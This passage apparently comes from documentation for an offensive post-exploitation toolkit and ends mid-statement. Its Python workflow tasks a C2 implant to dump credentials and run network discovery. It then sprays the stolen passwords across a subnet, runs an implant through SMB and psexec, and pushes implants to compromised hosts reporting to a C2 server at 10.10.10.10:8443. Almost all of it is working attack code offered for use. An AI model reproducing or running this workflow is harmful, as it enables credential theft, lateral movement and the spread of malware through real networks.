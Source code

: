 ```python
            smb.upload_file('C:\\implant.exe', 'C$\\temp\\update.exe')
            smb.psexec_execute('C:\\temp\\update.exe')

            print(f"[+] Implant deployed on {target}")
```

### Workflow 5: Integration with C2 Framework

```python
from lateral_movement.automated_lateral import AutomatedLateralMovement
from c2.server.tasking import TaskingManager
from persistence.credential_dumping import CredentialDumper

# Assume we have active C2 implant
implant_id = 'abc123'
tm = TaskingManager()

# Step 1: Dump credentials from current implant
task = tm.create_task(
    implant_id=implant_id,
    task_type='execute',
    command='python credential_dumping.py --export creds.json'
)

# Wait for completion and download results
# ... (task execution logic)

# Step 2: Load credentials
scanner = AutomatedLateralMovement()

with open('creds.json') as f:
    import json
    creds = json.load(f)

    for cred in creds:
        if cred['credential_type'] == 'password':
            scanner.add_credential(
                cred['username'],
                cred['value'],
                cred.get('domain', '.')
            )

# Step 3: Identify target network
# Get network info from implant
task = tm.create_task(
    implant_id=implant_id,
    task_type='execute',
    command='ipconfig /all'
)

# Parse network range
# ... (network discovery logic)

# Step 4: Spray credentials
scanner.add_target_range('192.168.1.0/24')
results = scanner.spray_credentials()

# Step 5: Deploy C2 implants to compromised hosts
c2_url = 'http://10.10.10.10:8443'

for host in scanner.compromised_hosts:
    scanner.deploy_implant(
        target=host,
```